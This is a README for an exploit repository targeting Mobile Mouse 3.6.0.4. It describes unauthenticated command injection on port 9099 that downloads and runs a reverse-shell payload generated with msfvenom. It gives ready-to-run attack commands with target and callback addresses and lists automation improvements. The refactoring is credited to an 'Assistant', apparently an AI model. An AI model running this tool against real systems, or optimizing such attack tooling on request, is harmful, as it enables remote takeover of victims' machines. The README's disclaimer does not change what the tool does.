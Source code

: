 # Mobile Mouse 3.6.0.4 RCE Exploit

Exploit by: [Chokri Hammedi](https://www.exploit-db.com/exploits/51010) (08/22)   
Fixed by: [lof1](https://github.com/lof1sec/mobile_mouse_rce/tree/main) (10/23)  
Updated by: x7331 (05/25)  
Optimized by: Assistant (2025)  

## Overview
This repository contains an exploit script targeting Mobile Mouse version 3.6.0.4, a remote control software for mobile devices. The exploit allows remote code execution (RCE) by leveraging an unauthenticated command injection vulnerability in the Mobile Mouse server running on port 9099.

## Original Exploit
The original exploit (dated August 9, 2022) works by uploading a crafted executable payload (usually generated manually via msfvenom) to the target machine's temporary directory and then remotely triggering its execution. The payload is served via an external HTTP server manually started by the attacker.

### What This Exploit Does
1. Connects to the Mobile Mouse service on the target IP (port 9099).
2. Sends crafted commands to upload a malicious payload (reverse shell executable) to the remote host.
3. Executes the uploaded payload, resulting in a reverse shell connection back to the attacker.
4. Requires an HTTP server serving the payload executable externally.

## Improvements & Optimizations

### Enhanced Features (Previous Updates)
1. **Integrated Payload Generation**: The script can now automatically generate the payload executable using msfvenom internally, removing the need to create the payload manually.
2. Uses a **temporary file to store the generated executable**, which is cleaned up after use.
3. **Built-in HTTP Server**: The script launches a background HTTP server to serve the generated (or user-supplied) payload. This removes the manual step of starting a separate HTTP server.

### Latest Optimizations (2025)
The script has been completely refactored and optimized with the following improvements:

#### **Code Structure & Architecture**
- **Object-Oriented Design**: Converted to a class-based architecture (`MobileMouseExploit`) for better organization and maintainability
- **Type Hints**: Added comprehensive type annotations for better code documentation and IDE support
- **Modular Functions**: Broke down functionality into smaller, focused methods with clear responsibilities
- **Context Managers**: Implemented proper resource management using context managers for socket connections

#### **Enhanced Error Handling & Robustness**
- **Comprehensive Validation**: Added parameter validation for IP addresses, ports, and file paths
- **Timeout Handling**: Implemented connection timeouts (30 seconds) and payload generation timeouts (60 seconds)
- **Graceful Error Recovery**: Better exception handling with specific error messages for different failure scenarios
- **Resource Cleanup**: Improved cleanup of temporary files and HTTP server resources

#### **Security Improvements**
- **Security Headers**: Added security headers to the HTTP server (X-Content-Type-Options, X-Frame-Options)
- **Input Sanitization**: Enhanced parameter validation to prevent injection attacks
- **Safe File Operations**: Improved temporary file handling with proper cleanup

#### **Better User Experience**
- **Structured Logging**: Implemented proper logging with timestamps and log levels
- **Verbose Mode**: Added `--verbose` flag for detailed debugging output
- **Clear Progress Indicators**: Better status messages showing exploit phases
- **Helpful Error Messages**: More descriptive error messages to aid troubleshooting

#### **Performance & Reliability**
- **Connection Reuse**: HTTP server configured with address reuse for better reliability
- **Background Processing**: HTTP server runs in daemon thread for non-blocking operation
- **Memory Efficiency**: Better memory management with proper resource cleanup
- **Process Management**: Improved subprocess handling with timeouts and error checking

### Flexible Parameters:
Added command-line arguments to specify:

- `--target`: Target IP address (required)
- `--lhost`: Local IP for reverse shell callback (default: 127.0.0.1)
- `--lport`: Local port for reverse shell callback (default: 443)
- `--server-port`: Port number for the HTTP server serving the payload (default: 8080)
- `--payload`: Optional argument to provide a custom payload executable path
- `--verbose`: Enable verbose logging for debugging

### Improved Usage & Output:
* Structured logging with timestamps and log levels
* Clear console output for each major step and phase
* Better error handling and feedback
* Proper cleanup of temporary payload files
* Progress indicators for exploit phases

## How to Use

### Prerequisites
1. Python 3.6+ installed
2. `msfvenom` installed and available in your system path
3. Network connectivity to the target Mobile Mouse server on port `9099`

### Basic Usage
```bash
python3 mobile-mouse-rce.py --target <TARGET_IP> --lhost <YOUR_IP> --lport <YOUR_PORT>
```

### Advanced Usage Examples
```bash
# Basic exploit with auto-generated payload
python3 mobile-mouse-rce.py --target 192.168.1.100 --lhost 192.168.1.50 --lport 4444

# Using custom payload
python3 mobile-mouse-rce.py --target 10.0.0.5 --lhost 10.0.0.1 --lport 443 --payload /path/to/custom.exe

# Custom HTTP server port with verbose logging
python3 mobile-mouse-rce.py --target 172.16.0.10 --lhost 172.16.0.1 --lport 8080 --server-port 9090 --verbose
```

### What the Script Does
1. **Parameter Validation**: Validates all input parameters (IPs, ports, file paths)
2. **Payload Generation**: Automatically generates a reverse shell payload with `msfvenom` (if not provided)
3. **HTTP Server**: Starts a local HTTP server on the specified port to serve the payload
4. **Phase 1 - Download**: Connects to target and downloads the payload to `c:\Windows\Temp\`
5. **Phase 2 - Execute**: Reconnects and executes the downloaded payload
6. **Cleanup**: Automatically cleans up temporary files and stops the HTTP server

## Technical Details

### Exploit Flow
1. **Connection**: Establishes TCP connection to target on port 9099
2. **Authentication**: Sends connection and run commands using predefined hex patterns
3. **Command Injection**: Injects curl command to download payload from attacker's HTTP server
4. **Execution**: Injects command to execute the downloaded payload
5. **Reverse Shell**: Target connects back to attacker's listener

### Security Considerations
- The exploit targets an unauthenticated vulnerability
- Payload is downloaded to Windows temporary directory
- HTTP server includes security headers to prevent common attacks
- All temporary files are automatically cleaned up

## Disclaimer
This exploit is intended for educational purposes and authorized penetration testing only. Unauthorized use against systems you do not own or have explicit permission to test is illegal and unethical.

## Changelog

### v3.0 (2025) - Major Optimization
- Complete code refactoring with object-oriented design
- Enhanced error handling and validation
- Improved logging and user experience
- Security improvements and better resource management
- Type hints and better code documentation

### v2.0 (2025) - Enhanced Features
- Integrated payload generation with msfvenom
- Built-in HTTP server functionality
- Improved command-line interface
- Better error handling and cleanup

### v1.0 (2022) - Original Exploit
- Basic RCE functionality
- Manual payload generation required
- External HTTP server needed
